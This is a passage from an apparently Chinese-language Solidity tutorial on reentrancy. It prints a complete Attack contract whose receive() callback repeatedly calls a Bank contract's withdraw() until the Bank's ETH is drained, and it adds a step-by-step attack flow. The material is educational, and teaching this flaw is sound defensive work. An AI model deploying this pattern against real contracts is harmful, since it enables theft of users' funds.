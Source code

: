 

下面我们看下攻击合约，它的逻辑非常简单，就是通过`receive()`回退函数循环调用`Bank`合约的`withdraw()`函数。它有`1`个状态变量`bank`用于记录`Bank`合约地址。它包含`4`个函数：

- 构造函数: 初始化`Bank`合约地址。
- `receive()`: 回调函数，在接收`ETH`时被触发，并再次调用`Bank`合约的`withdraw()`函数，循环提款。
- `attack()`：攻击函数，先`Bank`合约的`deposit()`函数存款，然后调用`withdraw()`发起第一次提款，之后`Bank`合约的`withdraw()`函数和攻击合约的`receive()`函数会循环调用，将`Bank`合约的`ETH`提空。
- `getBalance()`：获取攻击合约里的`ETH`余额。

```solidity
contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

> [!IMPORTANT]
>
> ### 攻击流程
>
> 1. **初始化攻击**
>    - 攻击者部署 `Attack` 合约，并将目标 `Bank` 合约的地址作为参数传入。
> 2. **启动攻击**
>    - 攻击者调用 `attack` 函数，发送 1 ether。
>    - `Attack` 合约在调用 `bank.deposit` 时将 1 ether 存入 `Bank` 合约。
>    - 接下来，调用 `bank.withdraw`，此时触发了重入攻击。
> 3. **重入过程**
>    - 在 `Bank` 合约的 `withdraw` 函数执行时，`msg.sender` 是 `Attack` 合约。合约进行转账后，控制权返回到 `Attack` 合约的 `receive` 函数。
>    - 如果 `Bank` 合约的余额仍然大于或等于 1 ether，`receive` 函数会再次调用 `bank.withdraw`。
>    - 这个过程可以重复，攻击者可以在 `Bank` 合约的余额被耗尽之前提取大量以太币。
